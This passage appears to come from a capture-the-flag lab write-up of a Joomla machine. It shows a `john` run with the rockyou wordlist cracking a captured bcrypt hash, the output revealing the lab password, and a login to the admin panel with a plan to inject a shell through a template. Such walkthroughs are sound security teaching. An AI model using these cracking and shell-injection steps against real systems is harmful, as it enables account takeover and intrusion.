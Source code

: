 
This returned what looked like a valid set of hashed credentials. I decided to run the credentials through `john` using the rockyou wordlist to see if I could identify the user's password.

### Cracking the hash

I ran `john` with a parallelism of 2 due to my attack host's 2 vcpus and walked away to let this run. Eventually I was lucky to obtain a match.

```bash
root@kali:~/ctf# john joomla.john --wordlist=/usr/share/wordlists/rockyou.txt --fork=2
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Node numbers 1-2 of 2 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (jonah)
2 1g 0:00:11:10 DONE (2020-11-27 21:52) 0.001491g/s 34.91p/s 34.91c/s 34.91C/s stargatesg1..speciala
1 0g 0:00:12:00 DONE (2020-11-27 21:53) 0g/s 33.61p/s 33.61c/s 33.61C/s hotcake..honey04
Waiting for 1 child to terminate
Use the "--show" option to display all of the cracked passwords reliably
Session completeds
```

![daily bugle admin panel](/images/daily_bugle_http_admin_panel.png)

With these new-found credentials (`jonah:spiderman123`), I was able to get through to the admin panel. I imediately began clicking around to see if I could find a template or module that I could attempt to inject a shell into.
